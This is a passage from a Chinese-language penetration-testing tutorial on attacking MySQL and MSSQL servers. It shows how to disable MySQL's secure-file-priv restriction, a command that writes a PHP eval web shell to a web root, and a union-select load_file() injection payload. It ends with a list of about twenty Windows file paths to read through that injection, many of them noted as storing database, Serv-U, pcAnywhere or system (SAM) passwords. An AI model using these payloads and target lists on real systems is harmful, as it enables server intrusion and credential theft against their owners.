 ![](https://ws1.sinaimg.cn/large/b6de3d7dly1fywyamsqghj21240kgq6r.jpg)

> The MySQL server is running with the --secure-file-priv option so it cannot execute this statement
>
> 方法一：
>
> 这个原因其实很简单，是因为在安装MySQL的时候限制了导入与导出的目录权限,只能在规定的目录下才能导入
>
> 们需要通过下面命令查看 secure-file-priv 当前的值是什么
>
> show variables like '%secure%';那么我们把导入的路径改为上面的值就可以了
>
> 方法二：
>
> 找到my.ini的配置文件，在my.ini文件中搜索secure-file-priv找到并将它的值改为secure-file-priv=‘’
>
> 重启MySQL就可以在任何目录下操作了

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fywyf1acgqj20vx0c4n1t.jpg)

菜刀连接

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fywylijbouj21010howmn.jpg)

**5.有些情况下掌握了MSSQL数据库口令，但服务器环境是Windows2008，web环境是PHP，则可以通过SQLTOOLs工具，直接连接命令，通过以下命令写入shell：**

```
echo ^<?php @eval(request[xxx])? ^^>^ >c:\web\www\shell.php 
```



## **四、Mysql渗透有用的一些技巧总结**

### **1.常见的有助于渗透到mysql函数**

在对MySQL数据库架构的渗透中，MySQL内置的函数DATABASE()、USER()、SYSTEM_USER()、SESSION_USER()和CURRENT_USER()可以用来获取一些系统的信息，而load_file()作用是读入文件，并将文件内容作为一个字符串返回，这在渗透中尤其有用，例如发现一个php的SQL注入点，则可以通过构造“-1 union select 1,1,1,1,load_file('c:/boot.ini')”来获取boot.ini文件的内容。

**(1)一些常见的系统配置文件**

```
1. c:/boot.ini //查看系统版本 
2. c:/windows/php.ini //php配置信息 
3. c:/windows/my.ini //MYSQL配置文件，记录管理员登陆过的MYSQL用户名和密码 
4. c:/winnt/php.ini 
5. c:/winnt/my.ini 
6. c:\mysql\data\mysql\user.MYD //存储了mysql.user表中的数据库连接密码 
7. c:\Program Files\RhinoSoft.com\Serv-U\ServUDaemon.ini //存储了虚拟主机网站路径和密码 
8. c:\Program Files\Serv-U\ServUDaemon.ini 
9. c:\windows\system32\inetsrv\MetaBase.xml 查看IIS的虚拟主机配置 
10. c:\windows\repair\sam //存储了WINDOWS系统初次安装的密码 
11. c:\Program Files\ Serv-U\ServUAdmin.exe //6.0版本以前的serv-u管理员密码存储于此 
12. c:\Program Files\RhinoSoft.com\ServUDaemon.exe 
13. C:\Documents and Settings\All Users\Application Data\Symantec\pcAnywhere\*.cif文件 
14. //存储了pcAnywhere的登陆密码 
15. c:\Program Files\Apache Group\Apache\conf\httpd.conf 或C:\apache\conf\httpd.conf //查看WINDOWS系统apache文件 
16. c:/Resin-3.0.14/conf/resin.conf //查看jsp开发的网站 resin文件配置信息. 
17. c:/Resin/conf/resin.conf /usr/local/resin/conf/resin.conf 查看linux系统配置的JSP虚拟主机 
18. d:\APACHE\Apache2\conf\httpd.conf 
19. C:\Program Files\mysql\my.ini 
20. C:\mysql\data\mysql\user.MYD 存在MYSQL系统中的用户密码 
```
